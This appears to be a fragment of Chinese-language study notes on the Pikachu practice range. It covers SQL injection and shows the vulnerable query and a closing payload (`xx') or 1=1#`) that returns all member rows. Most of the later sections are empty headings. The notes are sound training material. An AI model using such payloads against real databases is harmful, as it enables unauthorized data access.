 ### xx型注入

就是猜闭合罢了

看源代码

```bash
vim /var/www/html/pikachu/vul/sqli/sqli_x.php
```



![image-20230812173119879](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230812173119879.png)

```sql
select id,email from member where username=('$name');
```

构造闭合`xx') or 1=1#`

```sql
select id,email from member where username=('xx') or 1=1#');
```

### "insert/update"注入

### "delete"注入

### "http header"注入

### 盲注(base on boolian)

### 盲注(base on time)

### 宽字节注入
